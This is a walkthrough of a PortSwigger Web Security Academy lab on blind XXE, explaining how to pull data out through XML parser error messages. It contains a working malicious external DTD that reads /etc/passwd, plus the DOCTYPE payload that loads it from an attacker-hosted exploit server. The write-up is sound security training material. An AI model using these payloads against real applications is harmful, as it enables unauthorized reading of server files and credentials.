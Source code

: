 # Exploiting blind XXE to retrieve data via error messages

## Description

[This lab](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages) has a "Check stock" feature that parses XML input but does not display the result.

## Reproduction and proof of concept

1. Click **Go to exploit server** and save the following malicious DTD file on thr server:

```text
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

When imported, this page will read the contents of ``/etc/passwd`` into the ``file`` entity, and then try to use that entity in a file path.

2. Click "View exploit" and take a note of the URL for your malicious DTD.
3. Exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. Visit a product page, click **Check stock**, and intercept the resulting POST request in Burp Suite.
4. Send it to Repeater, and insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:

```text
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

You should see an error message containing the contents of the ``/etc/passwd`` file.

![XXE](/_static/images/xxe13.png)

## Exploitability

An attacker needs to use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file. The lab contains a link to an exploit server on a different domain where you can host your malicious DTD. 
